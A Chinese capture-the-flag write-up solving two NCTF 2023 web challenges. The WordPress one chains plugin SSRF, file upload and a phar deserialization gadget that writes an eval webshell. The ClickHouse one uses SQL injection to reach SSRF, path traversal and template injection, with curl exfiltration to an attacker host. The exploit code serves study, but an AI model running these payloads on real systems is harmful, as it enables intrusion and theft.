这道题出的真的很好，也很接近真实的环境，主要是通过`wordpress`的插件漏洞配合打`wordpress`的**RCE**链子，分别是通过 XSS 漏洞进行文件上传，通过 SSRF 触发`phar`从而触发**RCE**反序列化链子的命令执行，达到 RCE。

1、首先是关于`all-in-one-video-gallery`插件，这个插件的`df`路由存在`SSRF`漏洞，简要分析如下：

2、 `video.php`中存在`download_video`方法，能够接受`dl`参数，如果参数不为数字，则进行 base64 解码。当在参数内容中匹配到`http或https`协议，就会将`$formatted_path`赋值为 url，然后通过 cURL 的形式向路由发起请求。如果解密出来不包含`http`，则将`$formatted_path`赋值为`filepath`，通过`is_readable`能够触发`phar`协议导致反序列化。前提是需要是`false`，也就是说`file`的内容需要包含 URL 的路径，因为这里后面会通过`fopen()`打开文件进行读取返回，因此是可以造成`SSRF`的

```plain
<?php
    public function download_video() {
        if ( ! isset( $_GET['dl'] ) ) {
            return;
        }   
        if ( is_numeric( $_GET['dl'] ) ) {
            $file = get_post_meta( (int) $_GET['dl'], 'mp4', true );
        } else {
            $file = base64_decode( $_GET['dl'] );
        }

        if ( empty( $file ) ) {
            die( esc_html__( 'Download file URL is empty.', 'all-in-one-video-gallery' ) );
                exit;
           }
        $is_remote_file  = true;
    省略部分代码
            //需要令此处的$is_remote_file = false;
        if ( strpos( $file, home_url() ) !== false ) {
            $is_remote_file = false;
        }                       
             //当dl的内容包含http或https，$formatted_path=url
           if ( preg_match( '#http://#', $file ) || preg_match( '#https://#', $file ) ) {
                $formatted_path = 'url';
           } else {
                $formatted_path = 'filepath';
           }
        if ( $is_remote_file ) {
            $formatted_path = 'url';
        }

           if ( $formatted_path == 'url' ) {
                $file_headers = @get_headers( $file );

                if ( $file_headers[0] == 'HTTP/1.1 404 Not Found' ) {
                    die( esc_html__( 'File is not readable or not found.', 'all-in-one-video-gallery' ) );
                    exit;
                }          
           } elseif ( $formatted_path == 'filepath' ) {     
                if ( ! @is_readable( $file ) ) { //可触发phar协议进行反序列化。
                die( esc_html__( 'File is not readable or not found.', 'all-in-one-video-gallery' ) );
                    exit;
                }
           }
    //当$is_remote_file是True并且$formatted_path=url，使用CURL发起请求
            if ( $is_remote_file && $formatted_path == 'url' ) {         
                $data = @get_headers( $file, true );

                if ( ! empty( $data['Content-Length'] ) ) {
                    $file_size = (int) $data[ 'Content-Length' ];          
                } else {               
                    $ch = @curl_init();

                    if ( ! @curl_setopt( $ch, CURLOPT_URL, $file ) ) {
                        @curl_close( $ch );
                        @exit;
                    }

                    @curl_setopt( $ch, CURLOPT_NOBODY, true );
                    @curl_setopt( $ch, CURLOPT_RETURNTRANSFER, true );
                    @curl_setopt( $ch, CURLOPT_HEADER, true );
                    @curl_setopt( $ch, CURLOPT_FOLLOWLOCATION, true );
                    @curl_setopt( $ch, CURLOPT_MAXREDIRS, 3 );
                    @curl_setopt( $ch, CURLOPT_CONNECTTIMEOUT, 10 );
                    @curl_exec( $ch );

                    if ( ! @curl_errno( $ch ) ) {
                    $http_status = (int) @curl_getinfo( $ch, CURLINFO_HTTP_CODE );
                       if ( $http_status >= 200 && $http_status <= 300 )
                        $file_size = (int) @curl_getinfo( $ch, CURLINFO_CONTENT_LENGTH_DOWNLOAD );
                    }

                    @curl_close( $ch );               
                }          
        } else {         
            if ( $formatted_path == 'url' ) {          
               $data = @get_headers( $file, true );
               $file_size = (int) $data['Content-Length'];             
            } elseif ( $formatted_path == 'filepath' ) {           
               $file_size = (int) @filesize( $file );                          
            }          
           }
           省略部分代码
           //通过fopen读取文件
           $chunk = 1 * ( 1024 * 1024 );
           $nfile = @fopen( $file, 'rb' );
           while ( ! feof( $nfile ) ) {                 
            print( @fread( $nfile, $chunk ) );
               @ob_flush();
               @flush();
           }
           @fclose( $filen );       
    }

   }
```

另外一个是`drag-and-drop-multiple-file-upload-contact-form-7`插件存在任意文件上传漏洞，

漏洞连接：[https://wpscan.com/vulnerability/035dffef-4b4b-4afb-9776-7f6c5e56452c/](https://wpscan.com/vulnerability/035dffef-4b4b-4afb-9776-7f6c5e56452c/)

3、关于 Wordpress6.4 的`Rce`链子，简单分析如下：

```plain
<?php

class WP_HTML_Token {
    public $bookmark_name = null;
    public $node_name = null;
    public $has_self_closing_flag = false;
    public $on_destroy = null;
    public function __construct( $bookmark_name, $node_name, $has_self_closing_flag, $on_destroy = null ) {
        $this->bookmark_name         = $bookmark_name;
        $this->node_name             = $node_name;
        $this->has_self_closing_flag = $has_self_closing_flag;
        $this->on_destroy            = $on_destroy;
    }

    public function __destruct() {
        if ( is_callable( $this->on_destroy ) ) {
            call_user_func( $this->on_destroy, $this->bookmark_name );
        }
    }
}
```

> 又是大部分反序列化的罪魁祸首`call_user_func`，`WP_HTML_Token`类的销毁方法存在`call_user_func()`，而 `$this->on_destroy`和`$this->bookmark_name`都是可自定义控制的 (跟留了一个后门似的)

组合起来，首先可以通过插件上传一个 phar 文件，再通过`SSRF`中`readable()` 触发`phar`导致 RCE。

```plain
<?php
namespace
{
    class WP_HTML_Token
    {
        public $bookmark_name;
        public $on_destroy;

        public function __construct($bookmark_name, $on_destroy)
        {
            $this->bookmark_name = $bookmark_name;
            $this->on_destroy = $on_destroy;
        }
    }

    $a = new WP_HTML_Token('echo \'<?php eval($_POST[1]);?>\' > /var/www/html/aaa.php', 'system');

    $phar = new Phar("phar.phar");
    $phar->startBuffering();
    $phar->setStub("GIF89A<?php XXX __HALT_COMPILER(); ?>");
    $phar->setMetadata($a);
    $phar->addFromString("aaa.txt", "test");
    $phar->stopBuffering();
}
?>
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240202171430-78d958b6-c1ab-1.png)

随后访问`phar:///var/www/html/wp-content/uploads/wp_dndcf7_uploads/wpcf7-files/1.jpg/aaa.txt`即可写入 shell，最终通过`date -f`即可完整读取，读出 flag，关于这种命令的提权，可以参考网站：[https://gtfobins.github.io/](https://gtfobins.github.io/)

# \[NCTF 2023\]house of click

这个题基本上就是 0 基础了，全都是没有见到过的东西，主要是`ClickHouse`数据库进入注入，从而打`SSRF`。

`ClickHouse` 是一个开源的分布式列式数据库管理系统，专门用于快速处理大规模数据。它可以用于实时分析、日志处理、事件跟踪等数据处理场景。`ClickHouse` 使用了列式存储和灵活的数据压缩算法，能够提供高性能的查询和快速的数据加载能力，适合处理实时数据分析和大规模数据存储。同时，`ClickHouse` 还支持标准的 SQL 查询语言，方便开发人员和数据分析师进行数据查询和分析操作

题目源码：

```plain
import clickhouse_connect
import ipaddress
import web
import os

with open('.token', 'r') as f:
    TOKEN = f.read()

urls = (
    '/', 'Index',
    '/query', 'Query',
    '/api/ping', 'Ping',
    '/api/token', 'Token',
    '/api/upload', 'Upload',
)

render = web.template.render('templates/')


def check_ip(ip, ip_range):
    return ipaddress.ip_address(ip) in ipaddress.ip_network(ip_range)


class Index:
    def GET(self):
        return render.index()

    def POST(self):
        data = web.input(name='index')
        return render.__getattr__(data.name)()


class Query:
    def POST(self):
        data = web.input(id='1')

        client = clickhouse_connect.get_client(host='db', port=8123, username='default', password='default')
        sql = 'SELECT * FROM web.users WHERE id = ' + data.id
        client.command(sql)
        client.close()

        return 'ok'


class Ping:
    def GET(self):
        return 'pong'


class Token:
    def GET(self):
        ip = web.ctx.env.get('REMOTE_ADDR')
        if not check_ip(ip, '172.28.0.0/16'):
            return 'forbidden'
        return TOKEN


class Upload:
    def POST(self):
        ip = web.ctx.env.get('REMOTE_ADDR')
        token = web.ctx.env.get('HTTP_X_ACCESS_TOKEN')

        if not check_ip(ip, '172.28.0.0/16'):
            return 'forbidden'
        if token != TOKEN:
            return 'unauthorized'

        files = web.input(myfile={})
        if 'myfile' in files:
            filepath = os.path.join('upload/', files.myfile.filename)
            if (os.path.isfile(filepath)):
                return 'error'
            with open(filepath, 'wb') as f:
                f.write(files.myfile.file.read())
        return 'ok'


app = web.application(urls, globals())
application = app.wsgifunc(web.httpserver.StaticMiddleware)
```

> 简单分析下代码，存在一个 Upload 类，因为直接通过`os.path.join`拼接文件名，所以这里是存在文件上传穿越问题的，前提是需要获取到`token`，并且需要`ip`是`172`的也就是应该是用本机的`IP`发起请求，其次`render.__getattr__(data.name)()`中，通过`__getattr__`直接获取`render`其它属性。

1、关于`Clickhouse`数据库进行`SSRF`，在`Clickhouse`中存在`URL`参数能够发起`http`请求：

1.  **URL**:**HTTP**或**HTTPS**服务器地址，可以接受 GET 或 POST 请求（相应地用于 SELECT 或 INSERT 查询
    
2.  **format**：数据的格式
    
3.  **structure**：如`UserID UInt64，Name String`格式的表结构
    
4.  **headers**：`key1=value1，key2=value2`格式的标头。您可以设置 HTTP 调用的标头
    

2、如`select * from url('http://ip:port/','TabSeparatedRaw','x String'))`

表示通过`URL`函数获取数据，`TabSeparatedRaw`表示`返回的数据采用制表符分隔的原始数据格式`，`x String`表示`外部查询返回的数据类型为字符串`。

3、因为`sql = 'SELECT * FROM web.users WHERE id = ' + data.id`没进行任何过滤进行拼接的，可以通过请求`/api/token`的形式来获取`Token`,`||`是连接运算符。

```plain
SELECT * FROM url('http://ip:port/?a='||hex((select * FROM url('http://backend:8001/api/token', 'TabSeparatedRaw', 'x String'))), 'TabSeparatedRaw', 'x String');
```

4、如何访问`query`路由呢，这里是`nginx+gunicorn`路径绕过。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240202171449-83eb3b7a-c1ab-1.png)

这样子即可得到 token 的值

```plain
POST /query  HTTP/1.1/../../api/ping HTTP/1.1
   Host: 192.168.23.137:8013
   Content-Length: 176
   Pragma: no-cache
   Cache-Control: no-cache
   Upgrade-Insecure-Requests: 1
   User-Agent: Mozilla/5.0 (Linux; Android 6.0; Nexus 5 Build/MRA58N) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Mobile Safari/537.36
   Origin: http://192.168.23.137:8013
   Content-Type: application/x-www-form-urlencoded
   Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
   Referer: http://192.168.23.137:8013/
   Accept-Encoding: gzip, deflate
   Accept-Language: zh-CN,zh;q=0.9
   Connection: close

   id=1 and (SELECT * FROM url('http://vps_ip:port/?a='||hex((select * FROM url('http://backend:8001/api/token', 'TabSeparatedRaw', 'x String'))), 'TabSeparatedRaw', 'x String'));
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240202175931-c28d38be-c1b1-1.png)

5、拿到`Token`的值，可以通过`/api/upload`接口进行文件上传并且目录穿越到`templates`目录，实现`SSTI`。

```plain
$code:  
        __import__('os').system('curl http://vps_ip:port/?flag=`/readflag | base64`')
```

6、这样还是需要通过`ClickHouse`来请求`/api/upload`接口，完成文件的上传，通过`INSERT INTO FUNCTION 是用于将数据插入到自定义函数中的语法`。

```plain
INSERT INTO FUNCTION url('http://backend:8001/api/upload', 'TabSeparatedRaw', 'x String', headers('Content-Type'='multipart/form-data; boundary=----test', 'X-Access-Token'='36044d6e99708446ae269b0398fee3ab')) VALUES ('------test\r\nContent-Disposition: form-data; name="myfile"; filename="../templates/test.html"\r\nContent-Type: text/plain\r\n\r\n$code:\r\n    __import__(\'os\').system(\'curl http://ip:port/?flag=`/readflag | base64`\')\r\n------test--');','TabSeparatedRaw','x String')
```

```plain
进行 URL 编码后：
```

```plain
id=1 AND (SELECT * FROM url('http://default:default@db:8123/?query=%2549%254e%2553%2545%2552%2554%2520%2549%254e%2554%254f%2520%2546%2555%254e%2543%2554%2549%254f%254e%2520%2575%2572%256c%2528%2527%2568%2574%2574%2570%253a%252f%252f%2562%2561%2563%256b%2565%256e%2564%253a%2538%2530%2530%2531%252f%2561%2570%2569%252f%2575%2570%256c%256f%2561%2564%2527%252c%2520%2527%2554%2561%2562%2553%2565%2570%2561%2572%2561%2574%2565%2564%2552%2561%2577%2527%252c%2520%2527%2578%2520%2553%2574%2572%2569%256e%2567%2527%252c%2520%2568%2565%2561%2564%2565%2572%2573%2528%2527%2543%256f%256e%2574%2565%256e%2574%252d%2554%2579%2570%2565%2527%253d%2527%256d%2575%256c%2574%2569%2570%2561%2572%2574%252f%2566%256f%2572%256d%252d%2564%2561%2574%2561%253b%2520%2562%256f%2575%256e%2564%2561%2572%2579%253d%252d%252d%252d%252d%2574%2565%2573%2574%2527%252c%2520%2527%2558%252d%2541%2563%2563%2565%2573%2573%252d%2554%256f%256b%2565%256e%2527%253d%2527%2530%2536%2561%2531%2538%2531%2562%2535%2534%2537%2534%2564%2530%2532%2530%2563%2532%2532%2533%2537%2563%2565%2561%2534%2533%2533%2535%2565%2565%2536%2566%2564%2527%2529%2529%2520%2556%2541%254c%2555%2545%2553%2520%2528%2527%252d%252d%252d%252d%252d%252d%2574%2565%2573%2574%255c%2572%255c%256e%2543%256f%256e%2574%2565%256e%2574%252d%2544%2569%2573%2570%256f%2573%2569%2574%2569%256f%256e%253a%2520%2566%256f%2572%256d%252d%2564%2561%2574%2561%253b%2520%256e%2561%256d%2565%253d%2522%256d%2579%2566%2569%256c%2565%2522%253b%2520%2566%2569%256c%2565%256e%2561%256d%2565%253d%2522%252e%252e%252f%2574%2565%256d%2570%256c%2561%2574%2565%2573%252f%2574%2565%2573%2574%252e%2568%2574%256d%256c%2522%255c%2572%255c%256e%2543%256f%256e%2574%2565%256e%2574%252d%2554%2579%2570%2565%253a%2520%2574%2565%2578%2574%252f%2570%256c%2561%2569%256e%255c%2572%255c%256e%255c%2572%255c%256e%2524%2563%256f%2564%2565%253a%255c%2572%255c%256e%2520%2520%2520%2520%255f%255f%2569%256d%2570%256f%2572%2574%255f%255f%2528%255c%2527%256f%2573%255c%2527%2529%252e%2573%2579%2573%2574%2565%256d%2528%255c%2527%2563%2575%2572%256c%2520%2568%2574%2574%2570%253a%252f%252f%2568%256f%2573%2574%252e%2564%256f%2563%256b%2565%2572%252e%2569%256e%2574%2565%2572%256e%2561%256c%253a%2535%2535%2535%2535%252f%253f%2566%256c%2561%2567%253d%2560%252f%2572%2565%2561%2564%2566%256c%2561%2567%2520%257c%2520%2562%2561%2573%2565%2536%2534%2560%255c%2527%2529%255c%2572%255c%256e%252d%252d%252d%252d%252d%252d%2574%2565%2573%2574%252d%252d%2527%2529%253b', 'TabSeparatedRaw', 'x String'))
```

7、最终直接访问上传后的模板`test.html`即可 RCE

思路：通过`路径绕过nginx反向代理`，再通过`ClickHouse SQL`注入实现 SSRF，最终传入 SSTI 执行

# 总结

`ez_wordpress`与`house of click`质量很高，`house of click`有的云里雾里的，因为没接触过`house of click`数据库，其实还有一题 ActiveMQ 的反序列化题目，实在没有研究过 CVE-2023-46604 源码，就不复现了。
